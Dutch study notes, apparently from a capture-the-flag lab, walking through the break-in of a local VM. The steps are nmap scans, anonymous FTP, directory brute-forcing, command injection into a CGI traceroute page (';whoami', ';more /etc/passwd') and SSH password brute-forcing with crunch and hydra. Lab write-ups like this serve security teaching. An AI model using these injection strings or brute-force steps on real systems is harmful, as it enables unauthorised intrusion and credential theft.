


# capture the flag vm - blackbox

30 points halen

```bash
nmap 192.168.189.0/24
```

Legende:

`nmap 192.168.189.0/24` — scan het subnet (CIDR) om actieve hosts te vinden.



```bash
nmap -p- 192.168.189.8 -sV -n
```

Legende:

`-p-` = scan alle poorten (1-65535);
`-sV` = detecteer service en versie;
`-n` = geen DNS-resolutie.



surfen naar de website

[http://192.168.189.8/robots.txt](http://192.168.189.8/robots.txt)

```bash
nmap -p 21 192.168.189.8 -n -sC
```

Legende:

`-p 21` = scan alleen poort 21 (FTP);

`-sC` = voer standaard NSE-scripts uit;

`-n` = geen DNS.

```bash
ftp 192.168.189.8
USER anonymous
PASS whatever
```

Legende:

`USER <naam>` en `PASS <wachtwoord>` voor inloggen;

`get <bestand>` om een bestand te downloaden.

```ftp
?
```

get flag.txt

```bash
get flag.txt
```

Legende:

`get <bestand>` — download het opgegeven bestand uit de FTP-sessie naar je lokale werkmap.

ftp commandos opzoeken !!!!

http 168.189.8:9090

```bash
dirsearch -u 192.168.189.8

http://192.168.189.8/root_shell-cgikali
```

Legende:

`dirsearch -u <url>` probeert veelvoorkomende directories/pages op een webhost te vinden (directory brute-force).

f12

[http://192.168.189.8/tracertool](http://192.168.189.8/tracertool)

cgi = common gateway interface

```cgi
;whoami
;uname -a
;sudo?
;more /etc/passwd
```

Legende:

CGI-uitspraken hier laten wijzen op mogelijke command-injectie of remote command-execution via een onveilige CGI-endpoint — wees voorzichtig.

```bash
tree /home
ls -la /home
```

Legende:

`ls -la` = lange lijstweergave met verborgen bestanden (`-l` = long, `-a` = all);
`tree` toont hiërarchie van directories.

metaata bekijken in /home/flag.txt

```bash
strings /Safe_password

crunch 7 7 -t ,%Flesh > Flesh.wordlist
hydra -l RickSanchez -P Flesh.wordlist ssh://192.168.189.8 -s 22222
```

Legende:

- `strings <file>` toont leesbare ASCII-tekens in binaire bestanden (handig voor metadata/keys).
- `crunch 7 7 -t ,%Flesh > Flesh.wordlist` = genereer woordlijst van vaste lengte 7 volgens patroon `, % Flesh` en schrijf naar bestand.
- `hydra -l <user> -P <pwlist> ssh://<host> -s 22222` = parallelle login-cracker; `-l` = username, `-P` = wachtwoordenbestand, `-s` = poort.

## Legende van gebruikte opties

Hier kort wat de belangrijkste gebruikte opties en commando-elementen betekenen:

- `nmap 192.168.189.0/24`: scan het hele subnet (CIDR) — zoekt actieve hosts op dat netwerk.
- `-p-`: scan alle poorten (1-65535).
- `-sV`: probeert de service en versie te detecteren op open poorten.
- `-n`: geen DNS-resolutie uitvoeren (sneller, voorkomt DNS lookups).
- `-p 21`: scan specifiek poort 21 (FTP).
- `-sC`: voer de standaard NSE-scripts uit (script scan met handige checks).

- `ftp` sessie:

  - `USER <name>` en `PASS <pw>`: inloggen bij FTP-server.
  - `get <file>`: download een bestand van de FTP-server.

- `dirsearch -u <url>`: brute-force van webdirectories/paths op een host (zoek verborgen pagina's).

- `crunch 7 7 -t ,%Flesh > Flesh.wordlist`:

  - `7 7`: genereer woorden precies lengte 7.
  - `-t ,%Flesh`: patroon waarbij `,` en `%` en `Flesh` vaste posities zijn (patroon-syntax); output naar `Flesh.wordlist`.

- `hydra -l <user> -P <pwlist> ssh://<host> -s 22222`:

  - `-l`: single username.
  - `-P`: wachtwoordenlijstbestand.
  - `-s`: doelpoort (hier SSH op 22222 in plaats van 22).

- `tree /home` / `ls -la /home`:

  - `ls -la`: lange lijstweergave (`-l`) inclusief verborgen bestanden (`-a`).

- `strings <file>`: toont leesbare tekst in een binaire of onbekend bestand (handig voor metadata/keys).

- `F12` (browser): open developer tools om netwerkverkeer, console en broncode te inspecteren.

- `CGI` (Common Gateway Interface): server-side script interface; let op mogelijkheden tot command-injectie bij onveilige endpoints.

Tip: als je een commando niet 100% begrijpt, draai het eerst met een klein testcase of `--help` om de opties veilig te verifiëren.
